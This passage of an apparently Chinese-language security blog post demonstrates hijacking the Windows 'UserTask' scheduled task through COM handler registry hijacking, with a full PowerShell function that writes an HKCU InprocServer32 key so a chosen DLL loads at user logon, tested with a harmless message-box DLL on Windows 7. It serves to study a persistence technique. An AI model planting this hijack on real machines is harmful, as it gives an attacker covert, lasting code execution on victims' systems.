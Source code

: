 查看Scheduled Task面板的日志，问题解决，操作成功完成，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/3gstudent.github.io/master/_posts/2016-8-22/2-4.png)

以上操作可通过powershell自动实现，修改UserTask的代码如下：

```
function Invoke-ScheduledTaskComHandlerUserTask
{
    [CmdletBinding(SupportsShouldProcess = $True, ConfirmImpact = 'Medium')]
    Param (
        [Parameter(Mandatory = $True)]
        [ValidateNotNullOrEmpty()]
        [String]
        $Command,

        [Switch]
        $Force
    )
    $ScheduledTaskCommandPath = "HKCU:\Software\Classes\CLSID\{58fb76b9-ac85-4e55-ac04-427593b1d060}\InprocServer32"
    if ($Force -or ((Get-ItemProperty -Path $ScheduledTaskCommandPath -Name '(default)' -ErrorAction SilentlyContinue) -eq $null)){
        New-Item $ScheduledTaskCommandPath -Force |
            New-ItemProperty -Name '(Default)' -Value $Command -PropertyType string -Force | Out-Null
    }else{
        Write-Verbose "Key already exists, consider using -Force"
        exit
    }

    if (Test-Path $ScheduledTaskCommandPath) {
        Write-Verbose "Created registry entries to hijack the UserTask"
    }else{
        Write-Warning "Failed to create registry key, exiting"
        exit
    }  
}
Invoke-ScheduledTaskComHandlerUserTask -Command "C:\test\testmsg.dll" -Verbose

```
测试系统： Win7 x86

在运行后，当用户重新登录后，加载dll，实际演示如图

![Alt text](https://raw.githubusercontent.com/3gstudent/3gstudent.github.io/master/_posts/2016-8-22/2-5.gif)

依次执行DLL_PROCESS_ATTACH()和DllGetClassObject(),由于DllGetClassObject()仅作弹框，所以之后会显示taskhost.exe报错

**注：**
此处仅作演示，暂不介绍具体解决方法

至此，成功劫持计划任务UserTask，在系统启动时加载testmsg.dll
